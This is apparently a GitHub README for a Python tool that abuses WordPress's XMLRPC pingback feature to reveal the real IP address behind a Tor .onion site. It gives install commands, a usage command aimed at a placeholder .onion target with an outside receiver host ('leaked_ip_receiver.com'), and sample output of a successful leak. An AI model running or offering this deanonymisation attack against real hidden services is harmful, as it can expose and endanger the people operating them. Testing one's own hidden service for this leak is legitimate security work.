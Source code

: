 # Tor WordPress XMLRPC IP Leaker
This is a Python script for using the WordPress XMLRPC pingback function to leak an IP address from a Tor domain

## Requirements
- Working Tor SOCKS5 proxy (socks5h://localhost:9050)
- Public domain/IP which you can send requests to

## Setup
```bash
$ pip3 install virtualenv
$ virtualenv -p python3 .venv
$ source .venv/bin/activate
$ pip3 install -r requirements.txt
$ python3 wp_xmlrpc_leak.py -h
```

## Usage
```bash
$ python3 wp_xmlrpc_leak.py --host="http://wordpress_target.onion/" --pingback="http://leaked_ip_receiver.com"
Tor WordPress XMLRPC IP Leaker
[•] Made by: https://github.com/joshuavanderpoll/Tor-Wordpress-IP-Leaker
[@] Trying to get a blog post to use for pingback request...
[@] Trying HTML body method...
[√] Retrieved post link from HTML.
[√] Using post http://wordpress_target.onion/?p=1...
[√] Sent XMLRPC pingback request to http://leaked_ip_receiver.com/wordpress_target.onion.
[√] Received success response from XMLRPC request.

[√] Check your receiver's host its request/access logs to see the target it's IP.

```